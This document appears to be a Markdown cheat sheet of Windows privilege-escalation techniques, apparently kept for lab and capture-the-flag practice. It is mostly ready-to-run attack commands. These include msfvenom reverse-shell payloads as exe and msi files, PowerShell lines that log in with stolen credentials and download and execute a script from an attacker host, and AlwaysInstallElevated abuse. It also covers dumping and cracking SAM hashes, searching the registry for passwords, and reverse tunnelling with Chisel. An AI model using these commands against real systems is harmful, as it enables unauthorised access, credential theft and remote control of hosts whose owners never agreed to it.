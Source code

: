 Recon

```
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```

```
https://github.com/itm4n/PrivescCheck
```

Forwarding service

[TCP/UDP tunnel over HTTP](https://github.com/jpillora/chisel)

PowerShell history file

```cmd
REM location
cd C:\Users\<User Account>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
REM file
type C:\Users\<User Account>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

[LAN Manager authentication level](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level)

- [NTLMv1 attack](https://github.com/SpiderLabs/Responder)

Check unusual programs

```
C:\Program Files
C:\Program Files (x86)
```

MSFVenom Reverse Shell Payload

```
msfvenom -p windows/shell_reverse_tcp lhost=<attacker ip> lport=<attacker listening port> -f exe > rev.exe
```

:label: Running PowerShell as another user

reverse shell with credential

```cmd
REM create payload
msfvenom -p windows/shell_reverse_tcp lhost=<attacker ip> lport=<attacker listening port> -f exe > rev.exe
REM change user, password and payload
powershell -c "$password = ConvertTo-SecureString '<password>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<user>', $password);Start-Process -FilePath "<payload>" -Credential $creds"
```

specify a computer name in the AD environment

prepare PowerShell reverse shell script file ```XXX.ps1```

execute command in the target host

```cmd
powershell -c "$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential('<domain>\<username>', $pass);Invoke-Command -Computer <name> -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://<attacker ip>/<XXX.ps1>') } -Credential $cred"
```

File owner access permission 

```cmd
REM check owner
dir /q /a
REM grant full access
icacls <file> /grant <user>:F
```

AlwaysInstallElevated

```shell
# AlwaysInstallElevated set to 1 in HKLM!
# AlwaysInstallElevated set to 1 in HKCU! 
# using msfvenom to create payload
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f msi -o reverse.msi
```

execute the command on the target

```powershell
# <payload> = reverse.msi
msiexec /quiet /qn /i <payload>
```

SAM (SYSTEM account) (HTB:Omni)

```cmd
reg save HKLM\SYSTEM C:\SYSTEM
reg save HKLM\SAM C:\SAM
```

```shell
python3 secretsdump.py -system /tmp/SYSTEM -sam /tmp/SAM LOCAL
hashcat -m 1000 ./hash ~/Documents/rockyou.txt
```

[Chisel](https://github.com/jpillora/chisel) (port forwarding)

```shell
# client
chmod +x chisel
./chisel server --reverse --port <attacker port>
# Windows target
.\chisel.exe client <attacker ip>:<attacker port> R:<local-interface>:<local-port>:<remote-host>:<remote-port>/<protocol>
# attacker ip = 10.10.10.10
./chisel server --reverse --port 10000
.\chisel.exe client 10.10.10.10:10000 R:4444:localhost:3306 R:5555:localhost:3307
# attacker 
localhost 4444 => remote 3306
localhost 5555 => remote 3307
```

Windows Updates

```cmd
wmic qfe
```

```powershell
Get-HotFix
```

Installed Programs

```cmd
wmic product get name, version, installlocation
```

passwords in Registry

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Tools

[Chisel](https://github.com/jpillora/chisel): Pivoting<br>
[ysoserial.net](https://github.com/pwntester/ysoserial.net): Deserialization payload generator for a variety of .NET formatters

Exploits

- CVE-2021-1732
- MS10-059

WerTrigger

```
https://github.com/sailay1996/WerTrigger
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger
https://notes.vulndev.io/wiki/redteam/privilege-escalation/windows/exploiting-privileged-read-write-delete
```

